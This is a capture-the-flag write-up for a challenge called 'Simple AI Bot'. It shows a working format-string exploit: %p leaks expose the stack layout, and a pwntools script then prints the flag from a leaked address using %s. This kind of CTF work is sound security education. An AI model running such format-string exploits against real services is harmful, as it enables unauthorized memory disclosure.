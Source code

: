# Simple AI Bot

Blind pwn suggested by @Rosayxy.

The input string goes through `printf(str)`:

```
Hi, what can I help you with today?
> %p%p%p%p%p%p%p%p
I'm sorry, I don't know about: 0x7fffb71d52f00x110xc00200000x7fffb71d5320(nil)0x70257025702570250x70257025702570250x373265313464000a

Is there anything what you want me to ask?
```

The data printed:

- Don't care:
    - 0x7fffb71d52f0
    - 0x11
    - 0xc0020000
    - 0x7fffb71d5320
    - (nil)
- Location of our `%p%p%p%p%p%p%p%p`:
    - 0x7025702570257025: 4x %p
    - 0x7025702570257025: 4x %p
    - 0x373265313464000a: data after 8x %p

Get flag address:

```
Hi, what can I help you with today?
> flag
The flag is safely stored in 0x57278f8c5040

Is there anything what you want me to ask?
>
```

Put flag address at the end of the input string, and use `%s` to print the contents:

```python
from pwn import *
context(log_level='debug')

p = remote("simple-ai-bot.ctf.zone", 4242)

p.recvuntil(">")
p.sendline(b"flag")
addr = int(p.recvuntil(">").split()[6], 16)
p.sendline(b"%p"*7+b"%s"+p64(addr))
p.interactive()
```

Solved!
